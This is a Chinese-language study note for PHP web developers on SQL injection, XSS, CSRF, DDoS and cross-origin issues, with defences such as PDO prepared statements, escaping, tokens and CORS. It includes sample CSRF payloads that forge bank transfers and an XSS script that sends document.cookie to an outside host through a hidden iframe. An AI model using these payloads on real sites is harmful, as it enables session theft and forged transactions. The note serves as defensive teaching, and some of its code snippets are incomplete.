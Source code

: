 # SQL注入 xss csrf ddos 跨域的问题

*****

> 深刻理解同源策略；
>
> 同源策略：

###sql 注入： 

<font color=red>产生的原因：就是数据和程序是不分开的，数据和程序一起去编译； 所以用户输入sql程序的时候也会被编译，那么用户是不是就可以去间接的操数据库；这是产生sql注入的原因；</font>



解决方案：PDO的的预处理 先对sql程序做编译，然后再做数据的绑定，然后去执行；



不仅提高了安全性，还有那个减少了预编译的过程，提高了效率；

`````php
$sdn = 'mysql:host=mysql;dbname=demo;';
$pdo = new PDO($sdn,$user,$passwd,$options);

$res = $pdo->prepare();
$res->bindParams();
$res->execute();
`````



###**xss： 过滤 一些js代码就可以了 htmlspecialchars**   **xss：跨站脚本攻击；**

XSS 全称 “跨站脚本”，是注入攻击的一种，用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

所以这里要做转义；php中就是htmlspecialchars();  做转义；

```php
 //1.就是把 < > 转译成 &lt; &gt;
//2.htmlspecialchars()
// 
```

******



###**csrf ：cross-site request forgery  跨站请求伪造；**



产生的条件：

1. **去登录受信任的网站**
2. **没有退出 去访问有漏洞的网站；**   **还要知道受信任的网站的漏洞；**

<font color=red>产生的原因：主要是存在隐式的身份验证，不能保证所有的请求都是用户自己准许的请求；会带上cookie来进行访问；不是劫持cookie，是冒用用户的cookie；</font>



`````shell
##我们项目中重写了tokensMatch方法，然后调父类的handle的时候，父类中使用的是this调用tokensMatch的，个人感觉应该最后有用的是我们重写的这个方法，如果是ajax请求的话，我们就检测request−>header(′X−CSRF−TOKEN′)与session中的token是否一样否则的话，就检测request->input('_token')与session中的token是否一样。
`````

解决方案：

不要用get 去修改数据，php代码的话不要用$_REUEST 去接收数据；get 太容易被csrf攻击；一张图片，就可以，触发csrf攻击；触发条件太简单；

如果是post请求;

token  生成随机字符串的形式；区分开用户请求和黑客的请求；

referer 当前请求的来源地址；

验证码：太低级用户体验不好，所以一一般会使用token，令牌；

get的ccsrf；

　　<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>

post的csrf



``````html
<html>
　　<head>
<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
//一个隐藏的input框， 

``````







###**d  dos**

>在短时间内发起大量的请求，耗尽服务器的资源，无法响应正常的访问，造成网站的下线；
>
>缩写：distributed  de'nia'l of service 分布式停止服务 ，分布式代表请求来自四处八方；

阻挡流量；限制流量；

ddos 升级防火墙，nginx还有程序员做的一些nginx 做的一些 limit_req limit_con 限制访问：限制访问和限制TCP连接，自身的防火墙，硬件防火墙去购买；

扩容

扩充服务器	



cdn分流的思想

cdn（利用了静态缓存，进行分流，不需要访问我们的服务器；） 



###**跨域问题：**

jsonp：原理 运用，利用 script 标签带有herf  img  src属性可以跨域访问；兼容性比较好，能解决大部分浏览器的跨域数据访问的问题，局限性 就是只能用于get；	

只有ajax 才会存在跨域的问题；  XMLhttprequest  XHR  fetch   请求都会存在跨域的问题；  AJAX 页面无刷新更新数据；动态更新；

cors ： header("Access-Control-Allow-Origin:*");      **Cross-Origin Resource Sharing**

代理：proxy_pass www.baidu.com  因为 服务器 不会存在跨域的问题；

**WebSocket 是一种通信协议，使用`ws://`（非加密）和`wss://`（加密）作为协议前缀。该协议不实行同源政策，只要服务器支持，就可以通过它进行跨源通信。**

利用header 中的origin，请求源，发在那个域名；协议+域名+端口三部分组成；来判断是否是跨域；



###  同源策略产生的原因

https://en.wikipedia.org/wiki/Same-origin_policy  同源策略；

同源政策的目的，是为了保证用户信息的安全，防止恶意的网站窃取数据。

 `````js
 (function(window, document) {
     // 构造泄露信息用的 URL
     var cookies = document.cookie;
     var xssURIBase = "http://192.168.123.123/myxss/";
     var xssURI = xssURIBase + window.encodeURI(cookies);
     // 建立隐藏 iframe 用于通讯
     var hideFrame = document.createElement("iframe");
     hideFrame.height = 0;
     hideFrame.width = 0;
     hideFrame.style.display = "none";
     hideFrame.src = xssURI;
     // 开工
     document.body.appendChild(hideFrame);
 })(window, document);
 `````



我们知道 AJAX 技术所使用的 XMLHttpRequest 对象都被浏览器做了限制，**只能访问当前域名下的 URL，所谓不能 “跨域” 问题。这种做法的初衷也是防范 XSS**，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用 iframe 也一样可以达到相同的目的。甚至在愿意的情况下，我还能用 iframe 发起 POST 请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的 IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以防止 XSS 的根本之道还是过滤用户输入。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。



在随着互联网的发展，同源策略越来越严格，就目前而言，如果非同源，共有三种行为受到限制。

> （1） 无法读取非同源网页的 Cookie、LocalStorage 和 IndexedDB。
>  （2） 无法接触非同源网页的 DOM。
>  （3） 无法向非同源地址发送 AJAX 请求（可以发送，但浏览器会拒绝接受响应）。



作者：不言殇
链接：https://www.jianshu.com/p/d1a8956d1b60
来源：简书
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

————————————————
原文作者：lizhiqiang666
转自链接：https://learnku.com/articles/20710
版权声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请保留以上作者信息和原文链接。
